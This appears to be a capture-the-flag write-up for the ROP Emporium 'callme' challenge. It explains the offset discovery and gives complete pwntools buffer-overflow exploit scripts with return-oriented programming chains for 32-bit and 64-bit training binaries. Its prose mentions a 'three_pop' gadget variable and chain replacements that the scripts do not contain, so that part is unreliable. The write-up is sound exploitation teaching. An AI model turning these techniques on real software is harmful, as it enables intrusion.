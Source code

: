 # Callme

## 32 bit

As usual we run **rabin2 -I callme** to see what kind of protection are enabled.

We need to call the function  `callme_one(), callme_two() and callme_three()`,
in this order and with 0xdeadbeef, 0xcafebabe, 0xd00df00d as parameter to do so
we need to find ROP gadget to do that.

First of all we need to find the return address. To do that we use pwntools and
with cyclic function, then read the eip.

Then we need to find the gadget to create the rop chain, we use the function
rop.call then pass the addreess of the function we want to call, with the
parameters that we want to pass.

The "three_pop" variable is created using ropgadget, there are multiple gadget
that could be good for this payload, i decided to take the most simple to read,
"pop esi ; pop edi ; pop ebp ; ret ;".

There are 2 replace in the rop chain because with the function call it add also
address of a return address that we don't want.

```python
from pwn import *

elf = context.binary = ELF('callme32')
context.log_level = 'debug'

# We get the length of our junk part of the payload
p = process(elf.path)
p.sendline(cyclic(200))
p.wait()
eip = p.corefile.eip
offset = cyclic_find(eip)
success("OFFSET " + str(offset))

callme_one = elf.symbols['callme_one']
callme_two = elf.symbols['callme_two']
callme_three = elf.symbols['callme_three']

rop = ROP(elf)
rop.call(callme_one, (0xdeadbeef, 0xcafebabe, 0xd00df00d))
rop.call(callme_two, (0xdeadbeef, 0xcafebabe, 0xd00df00d))
rop.call(callme_three, (0xdeadbeef, 0xcafebabe, 0xd00df00d))
success("ROPCHAIN " + ' '.join([hex(x) for x in unpack_many(rop.chain())]) + '\n')
payload = offset * b'A'
payload += rop.chain()

p = process(elf.path)
p.sendline(payload)
p.readall()
```

## 64 bit

As for the 32 bit we need to do the same thing, but instead of pass the
parameters using the stack we need to use the registers to do so we use a gadget
that do three pop in three different registers. There are another solution using
2 gadget, the first do 2 pop, while the second do the last pop needed.

```python
from pwn import *

elf = context.binary = ELF('callme')
context.log_level = 'debug'

# We get the length of our junk part of the payload
p = process(elf.path)
p.sendline(cyclic(50, n=8))
p.wait()
fault = p.corefile.fault_addr
offset = cyclic_find(fault, n=8)
success("OFFSET " + str(offset))

callme_one = (elf.symbols['callme_one'])
callme_two = (elf.symbols['callme_two'])
callme_three = (elf.symbols['callme_three'])

# We create the ROP
rop = ROP(elf)
rop.call(callme_one, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
rop.call(callme_two, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
rop.call(callme_three, [0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d])
success("ROPCHAIN " + ' '.join([hex(x) for x in unpack_many(rop.chain())]) + '\n')
payload = offset * b'A'
payload += rop.chain()

p = process(elf.path)
p.sendline(payload)
p.readall()
```
